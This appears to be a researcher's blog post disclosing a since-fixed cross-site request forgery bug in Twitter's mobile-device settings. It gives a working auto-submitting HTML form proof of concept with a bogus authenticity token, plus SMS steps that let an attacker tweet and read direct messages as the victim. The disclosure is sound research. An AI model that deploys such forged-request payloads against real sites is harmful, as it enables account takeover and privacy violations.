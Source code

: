 ```yaml
---
layout: post
title: The bug that let me Tweet from Any Twitter Account
tag: 
---
```



In this post I will explain how I could read direct messages and Tweet from anyones Twitter account using a Cross Site Request Forgery vulnerability.

# Timeline
* Discovered: Sunday 3rd November
* Reported: Sunday 3rd November
* Fixed: Sunday 3rd November

# What is Cross Site Request Forgery?
"CSRF is an attack which forces an end user to execute unwanted actions on a web application in which he/she is currently authenticated. With a little help of social engineering (like sending a link via email/chat), an attacker may force the users of a web application to execute actions of the attacker's choosing. A successful CSRF exploit can compromise end user data and operation in case of normal user. If the targeted end user is the administrator account, this can compromise the entire web application." Source: <https://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29>

# The Exploit
The vulnerability allows me to Tweet from anyone's Twitter account and read their direct messages. It exists in the add a mobile device feature of Twitter, where you can add a mobile device to control your account via SMS. (<https://twitter.com/settings/devices>) To exploit this we create a CSRF page that will add the attackers mobile number and network to the victims account. Although the page does provide an authenticity token aimed at preventing CSRF, it does not seem to validate that the token is correct, and therefore, we can enter any value.

The exploit code below shows the PoC that I used to send the request, of course attackers could disguise this as a real webpage and send the request in the background.

```html
<form action="https://twitter.com/settings/devices/create" method="POST"><input type="hidden" name="device_type" value="phone" />
<input type="hidden" name="authenticity_token" value="randomthinghere" />
<input type="hidden" name="device[country_code]" value="+44" />
<input type="hidden" name="device_country_intl_prefix" value="+44" />
<input type="hidden" name="device[region_country_code]" value="" />
<input type="hidden" name="device[address]" value="7123456789" />
<input type="hidden" name="carrier_name" value="Vodafone" />
<input type="hidden" name="device[carrier]" value="vodafone_uk" />
<input type="submit" value="Submit request" /></form><script type="text/javascript">
document.forms[0].submit();></script>
```

I will demo this vulnerability on my device on the Vodafone network, the network and country are important, as the mobile sms code changes for each network. Using some social engineering the attacker can force the target to visit the webpage with the exploit code on it, once we are sure the target has visited the page, Twitter will be waiting for the device to be activiated: Text "GO" to the mobile short code, in my case it was 86444. Then you will receive a confirmation SMS saying you have activated the device with the account. From here you can simply text the number to send a Tweet on the users account.

`"GO"` -> 86444

`"Your phone is activated! Reply w/ help to checkout all the things you can do with Twitter Text messaging..."`

This now indicates we have successfully compromised the account, we can now send Tweets from the targets account.

Next I can send any message to 86444:
`"Here is my PoC message"`


# Severity
Using this I could use all of the Twitter SMS features, including sending Tweets, sending messages and reading direct messages

# Protect Yourself
To protect yourself against these types of attacks in the future, I recommend Noscript.